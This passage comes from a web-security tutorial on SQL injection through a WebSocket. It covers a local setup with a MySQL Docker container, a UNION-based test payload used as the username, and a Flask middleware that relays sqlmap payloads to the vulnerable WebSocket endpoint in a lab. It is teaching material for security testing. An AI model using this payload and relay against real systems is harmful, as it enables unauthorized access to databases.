 To run the Python web application locally, we must install the three dependencies using `pip`: `Flask`, `flask-sock`, and `mysql-connector-python`.

The web application attempts to connect to a MySQL instance on localhost; instead of installing a MySQL server on our local machine, we can make use of a [MySQL Docker](https://hub.docker.com/_/mysql) container with the following parameters:

```shell
docker run -p 3306:3306 -e MYSQL_USER='db' -e MYSQL_PASSWORD='db-password' -e MYSQL_DATABASE='db' -e MYSQL_ROOT_PASSWORD='db' mysql

```

This creates a new MySQL server for us with the credentials given in the source code. However, the database is empty. Since we only want to confirm the SQLi vulnerability, this is fine for our use case. However, in other scenarios, seeding the database with sample/dummy data allows us to test the local instance more thoroughly.

After changing the port to a non-privileged one, we can start the web application and access it locally. To confirm the SQLi vulnerability, we will use `" UNION SELECT "1` as the username:

![](Dvx1BQtqTXTi.png)

* * *

## Exploitation

[sqlmap](https://sqlmap.org/) is the tool of the trade for exploiting SQLi vulnerabilities; however, sometimes, it has trouble handling WebSocket connections. Therefore, we will write a middleware on our local machine that receives the SQLi payload from sqlmap in an HTTP request parameter, opens a WebSocket connection to the vulnerable web application, and forwards the payload via it. This allows us to use sqlmap for WebSocket connections. While sqlmap can handle WebSocket connections independently, this approach allows us more control over the WebSocket handshake. It is thus applicable to a broader variety of web applications.

To develop the middleware, we must install two packages using `pip`: `Flask` and `websocket-client`. The middleware is a simple `Flask` web application consisting of a single endpoint that parses the `username` GET parameter and forwards the data in the correct JSON format to the vulnerable web application through a WebSocket connection:

```python
from flask import Flask, request
from websocket import create_connection
import json

app = Flask(__name__)

WS_URL = 'ws://172.17.0.2/dbconnector'

@app.route('/')
def index():
    req = {}
    req['username'] = request.args.get('username', '')

    ws = create_connection(WS_URL)
    ws.send(json.dumps(req))
    r = json.loads(ws.recv())
    ws.close()

    if r.get('error'):
        return r['error']

    return r['messages']

app.run(host='127.0.0.1', port=8000)

```
